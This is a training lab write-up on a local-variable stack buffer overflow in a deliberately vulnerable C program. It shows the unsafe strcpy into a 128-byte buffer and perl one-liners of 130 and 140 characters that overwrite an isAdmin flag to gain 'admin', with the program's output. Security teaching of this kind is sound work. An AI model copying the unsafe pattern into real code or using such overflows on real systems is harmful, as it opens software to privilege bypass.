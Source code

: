 # Simple Buffer overflow - local variable overwrite

## Intro

We will perform a simple buffer overflow on a binary. This overflow
will change a sensitive variable, and based on this the function flow,
which enables us to gain "admin" privileges.


## Goal

* Understand C arrays by misusing them
* Get comfortable with gdb
* Deeper understanding of the stack


## Source 

* Source directory: `~/challenges/challenge09/`
* Source files: [challenge09](https://github.com/dobin/yookiterm-challenges-files/tree/master/challenge09)

You can compile it by calling `make` in the folder `~/challenges/challenge09`


## Vulnerability

Read the source of `challenge09.c`.

The vulnerability lies here:

```
void handleData(char *username, char *password) {
    int isAdmin = 0;
    char name[128];
	...
	strcpy(name, username); // strcpy() is unsafe
	...
}

int main(int argc, char **argv) {
    handleData(argv[1], argv[2]);
}
```

The first argument of the program is copied into a stack buffer `name` of 128 byte size.
After this buffer `name`, an important variable called `isAdmin` is located.


## Normal behaviour

Lets execute the program with normal length string, and with a wrong password:

```
~/challenges/challenge09$ ./challenge09 sheldon password
isAdmin: 0x0
Not admin.
```

The password "password" seems to be not correct. We dont know
what the actual password is.

But with the correct password, it would look like this:

```
~/challenges/challenge09$ ./challenge09 sheldon ...
isAdmin: 0x1
You are admin!
```


## Abnormal behaviour - buffer overflow

What happens when you insert a string which is longer than 128 bytes? Lets try it.
We can use perl to print 130 characters:

```
~/challenges/challenge09$ ./challenge09 `perl -e 'print "A" x 130'` password
isAdmin: 0x4141
You are admin!
```

It appears that we have overwritten the `isAdmin` variable with the content `0x4141`. 


## Abnormal behaviour - more buffer overflow

What if we even add some more characters? Lets say 140.

```
~/challenges/challenge09$ ./challenge09 `perl -e 'print "A" x 140'` password
isAdmin: 0x41414141
You are admin!
Segmentation fault (core dumped)
```

Not only is the `isAdmin` variable `0x41414141`, but we also get a `Segmentation fault` 
at the end.


## Things to think about

* What is happening here? Why Are we "admin" if we use a username which is 130 bytes long?
* Why do we get a segmentation fault if we use a username which is 140 bytes long?
